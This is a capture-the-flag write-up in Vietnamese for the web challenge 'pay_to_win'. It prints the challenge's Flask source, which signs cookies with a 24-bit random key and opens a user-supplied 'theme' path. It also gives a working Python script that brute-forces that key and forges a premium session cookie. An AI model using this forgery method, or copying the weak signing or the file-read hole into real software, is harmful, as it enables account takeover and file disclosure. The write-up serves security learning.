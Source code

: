 Challenge tiếp theo là pay_to_win 


![1](./1.png)

Yeah web cho chúng ta một form đăng nhập 

![2](./2.png)

"Not a premium user"!!! hmm có vẻ chúng ta cần đăng nhập với quyền premium để lấy được flag thì phải


![3](./3.png)


Check thử cookie xem nào có vẻ nó cho chúng ta hai giá trị là data và hash


![4](./5.png)


Check thử source code xem có thể được gì nào  

```from flask import Flask, request, render_template, redirect, make_response
from base64 import b64encode, b64decode
import hashlib
import random
import json

app = Flask(__name__)
users = {}


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


@app.route('/')
def index():
    if request.cookies.get('data') is None or request.cookies.get('hash') is None:
        return redirect('/login')

    data = request.cookies.get('data')
    decoded = b64decode(data)
    data_hash = request.cookies.get('hash')
    payload = json.loads(decoded)

    if payload['username'] not in users:
        resp = make_response(redirect('/login'))
        resp.set_cookie('data', '', expires=0)
        resp.set_cookie('hash', '', expires=0)
        return resp

    actual_hash = hash(data + users[payload['username']])

    if data_hash != actual_hash:
        return redirect('/login')

    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=open(theme_name).read())
    else:
        return render_template('basic.jinja')


@app.route('/login', methods=['GET'])
def get_login():
    return render_template('login.jinja')


@app.route('/login', methods=['POST'])
def post_login():
    username = request.form['username']

    if username not in users:
        users[username] = hex(random.getrandbits(24))[2:]

    resp = make_response(redirect('/'))
    data = {
        "username": username,
        "user_type": "basic"
    }

    b64data = b64encode(json.dumps(data).encode())
    data_hash = hash(b64data.decode() + users[username])
    resp.set_cookie('data', b64data)
    resp.set_cookie('hash', data_hash)
    return resp


if __name__ == '__main__':
    app.run()
```


Yeah có vẻ chúng ta dễ dàng thấy được khi đăng nhập nó sẽ set sẵn cho chúng ta user_type là basic nhiệm vụ của mình là chuyển sang premium để lấy được template chứa flag, tuy nhiên khó khăn ở đây là tác giả đính kèm giá trị hash cùng với khóa được random một chuỗi ký tự 24 bits. Câu hỏi ở đây là chúng ta có thể brute force và tìm ra khóa ở đây được không nếu được chúng ta chỉ cần set lại giá trị data và hash và sẽ đăng nhập được với quyền user_type và đây là đoạn code của mình

```
import random
from base64 import b64encode, b64decode
import hashlib
import json


data_cookie = 'eyJ1c2VybmFtZSI6ICJuZ29jIiwgInVzZXJfdHlwZSI6ICJiYXNpYyJ9'
hash_cookie = '8529e1f31c3682725b54d02c3a07b5582bea7844624d3804aa813db2a52931bb'
username = 'ngoc'

def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()
def crack():
    
    data = {
        "username": username,
        "user_type":"basic"
    }
    for i in range(0xFFFFFF):
        r = hex(i)[2:]
        b64data = b64encode(json.dumps(data).encode())
        data_hash = hash(b64data.decode() + r) 
        if b64data.decode() == data_cookie and data_hash == hash_cookie:
            return r
        i += 1
        if i % 1000000 == 0:
            print(f"{i=}")   
def force(r):
    data = {"username": username, "user_type":"premium"}
    
    b64data = b64encode(json.dumps(data).encode())
    data_hash = hash(b64data.decode() + r)
    
    print(f"{b64data=} {data_hash=}")
    
    
if __name__ == "__main__":
    # print(crack())
    r = "9fba4d"
    force(r)
```
Vì chỉ sử dụng 24bits thôi nên việc brute force khóa không quá khó khăn chúng ta dễ dàng crack được khóa

![5](./7.png)


Và bây giờ đơn giản là set lại hai giá trị mình đã nói mà thôi 

![6](./8.png)


Yeah bây giờ truyền lại vào cookie và đăng nhập thôi và boom chúng ta đã đăng nhập với quyền premium

![7](./9.png)


Nhưng có vẻ flag không ở đây, hmm tìm lại trong source code thử xem và mình phát hiện trong Dockerfile path này
![9](./10.png)

Và flag có vẻ nằm trong file nguồn trên trang web 

![10](./11.png)

Và boom chúng ta đã có được flag

![11](./12.png)
